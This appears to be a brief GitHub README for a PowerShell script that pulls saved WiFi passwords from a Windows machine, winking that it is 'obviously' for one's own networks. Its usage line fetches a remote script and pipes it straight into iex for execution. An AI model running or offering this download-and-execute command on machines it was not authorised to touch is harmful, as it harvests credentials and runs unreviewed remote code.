 # Extract WiFi Password from Windows Machine
Simple ps1 script for extracting WiFi passwords
it obviously is for the purpose of archiving your own saved SSID and passwords right!? RIGHT!??

## Usage
<kbd>⊞ Win + r</kbd> to open up run dialog
```
powershell -command cd ~\Desktop;iwr -useb https://raw.githubusercontent.com/ARSTCreations/windows_extract_wifi/main/wifi_extract.ps1 | iex
```
